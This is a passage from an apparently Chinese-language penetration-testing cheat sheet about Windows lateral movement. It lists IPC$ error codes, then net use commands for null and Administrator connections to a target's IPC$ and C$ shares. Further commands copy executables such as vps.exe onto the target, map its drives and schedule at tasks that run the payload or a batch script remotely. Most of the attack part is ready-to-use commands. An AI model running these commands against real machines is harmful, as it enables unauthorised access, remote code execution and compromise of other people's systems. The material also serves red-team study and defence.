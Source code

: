 错误号 1326   未知的用户名或错误密码
错误号 1385   登录失败：未授予用户在此计算机上的请求登录类型---&gt;可能“拒绝从网络访问这台计算机”功能中拒绝了该用户的访问；ipc$连接时，输入的用户不存在
错误号 1792   试图登录，但是网络登录服务没有启动---&gt;目标NetLogon服务未启动[连接域控会出现此情况]
错误号 2242   此用户的密码已经过期---&gt;目标有帐号策略，强制定期要求更改密码

常见原因：
（1）目标系统不是NT或以上的操作系统
（2）对方未打开IPC$共享
（3）对方未开启139、445端口
（4）防火墙端口未开放
（5）命令、账号密码有错误
</code></pre>
<hr/>
8、IPC$常用命令：
<pre><code>net use \\192.168.*.*\ipc$ "" /u:""                         #建立空连接
net use \\192.168.*.*\ipc$ "密码" /user:"Administrator"     #建立正常连接
net use                               #查看本机连接共享情况
dir \\xx.xx.xx.xx\C$\                 #查看文件列表
net view \\192.168.*.*                #查看已建立连接目标主机的共享资源
net time \\192.168.*.*                #查看目标主机时间
nbtstat -A 192.168.*.*                #查看目标主机的NetBIOS用户（自己本机也需开启）
net use \\192.168.*.*\ipc$ /del /y    #删除本机与指定ip建立的连接
net use * /del /y                     #删除本机所有已建立的连接
copy 1.exe \\192.168.*.*\c$\windows\temp\1.exe    #文件的上传下载
copy vps.exe \192.168.*.*\c$          #将本目录下的指定文件复制到目标系统中
xcopy d:\sqlitedata\*.* \\192.168.*.*\c$\temp /E /Y /D         #上传本地文件到目标的:c\windows\temp\目录下
copy \\192.168.*.*\c$\plugin_update.exe c:\                    #下载目标文件到本地c盘下
net share c$ /del                     #删除默认共享
net share c$=c:                       #恢复默认共享
net use z: \\192.168.*.*\c$ "密码" /user:"administrator"   #映射路径：对方的c盘映射为自己的z盘(其他盘类推)
net use z: \\192.168.*.*\c$   #访问
net use c: /del               #删除映射的c盘
net use * /del                #删除全部,会有提示要求按y确认</code></pre>



---


---


---


> 
<h3>2、at命令</h3>
1、简述：定时计划任务（安装 at 软件包+开启 atd 服务）
<hr/>
2、常用命令
<pre><code>at \192.168.*.* 17:00:00 C:\vps.exe     #使用at创建计划任务
at \192.168.*.* 作业ID /delete          #清除at记录
at \192.168.*.* 17:00:00 cmd.exe /c "ipconfig &gt; C:/1.txt "    #使用at命令执行，将执行结果写入本地文本文件，再使用type命令查看该文件的内容
type \192.168.*.*\C$\1.txt              #查看生成的1.txt文件
at \\192.168.*.* 11:23 cmd /c "c:\windows\temp\test.bat"      #设置定时任务，cmd下执行批处理脚本</code></pre>

